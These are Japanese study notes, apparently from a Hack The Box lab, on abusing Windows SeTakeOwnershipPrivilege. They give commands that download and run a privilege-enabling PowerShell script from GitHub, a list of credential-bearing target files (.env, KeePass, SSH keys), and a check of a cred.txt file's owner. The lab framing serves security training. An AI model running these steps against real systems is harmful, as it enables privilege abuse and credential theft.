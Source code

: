 SeTakeOwnershipPrivilege の有効化
```sh
PS C:\htb> wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

ターゲットファイルの選択
- **機密性:**
    - 認証情報 (パスワード、APIキー、暗号化キー)
    - 設定ファイル (データベース接続文字列、APIエンドポイント)
- **アクセス制御:**
    - アクセス制限が緩いファイル
    - SYSTEM アカウントのみアクセス可能なファイル
    - 現在のユーザーがアクセスできないファイル
- **入手経路:**
    - 共有フォルダ
    - Web サーバーのルートディレクトリ
    - ユーザーのプロファイルディレクトリ
- **攻撃目標との関連性:**
    - 認証情報を含むファイル
    - 設定ミスを悪用できるファイル
    - コード実行を可能にするファイル
- **ターゲットファイルの例:**
    - 設定ファイル: web.config, .env, settings.ini
    - パスワードファイル: passwords.txt, credentials.xml
    - データベースファイル: .kdbx (KeePass), .mdb, .accdb
    - SSH 秘密鍵ファイル: %USERPROFILE%\.ssh\id_rsa
- **攻撃可能性:**
    - 難読化されていないファイル
    - 既知の脆弱性が存在するソフトウェアの設定ファイル
- **実行可能性:**
    - コード実行可能なファイル

ターゲットファイルを確認して、詳細情報を収集する
```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```
